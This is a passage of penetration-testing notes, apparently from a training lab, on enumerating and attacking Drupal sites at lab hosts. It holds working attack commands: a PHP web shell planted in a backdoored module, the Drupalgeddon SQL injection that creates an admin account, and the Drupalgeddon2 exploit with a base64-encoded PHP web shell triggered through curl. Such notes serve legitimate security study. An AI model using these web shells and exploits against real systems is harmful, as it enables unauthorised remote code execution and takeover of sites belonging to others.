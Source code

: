 ```bash
curl -X POST http://drupal.inlanefreight.local/graphql -H "Content-Type: application/json" --data '{"query":"{__schema { types { name } }}"}'
#   - Check for exposed GraphQL endpoint.
```

### 12. Robots.txt Analysis:

```bash
curl -s http://drupal.inlanefreight.local/robots.txt
#   - Analyze robots.txt for sensitive disallows or revealing paths.
```

# ATTACKING DRUPAL


### 1. PHP Filter Module Exploitation (Drupal < 8)

```sh
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

* Enable PHP filter module, inject code via content.
* **Consideration:** Client communication before enabling modules.

### 2. Backdoored Module Upload

```sh
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' > captcha/shell.php
echo '<IfModule mod_rewrite.c>RewriteEngine On;RewriteBase /</IfModule>' > captcha/.htaccess
tar cvf captcha.tar.gz captcha/captcha/
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

* Upload malicious module via admin panel.
* **Consideration:** Avoid modifying production systems without explicit permission.

### 3. Drupalgeddon (CVE-2014-3704)

```sh
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

* Create admin user via SQL injection.
* **Consideration:** Impact of creating unauthorized admin accounts.

### 4. Drupalgeddon2 (CVE-2018-7600)

```sh
python3 drupalgeddon2.py
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
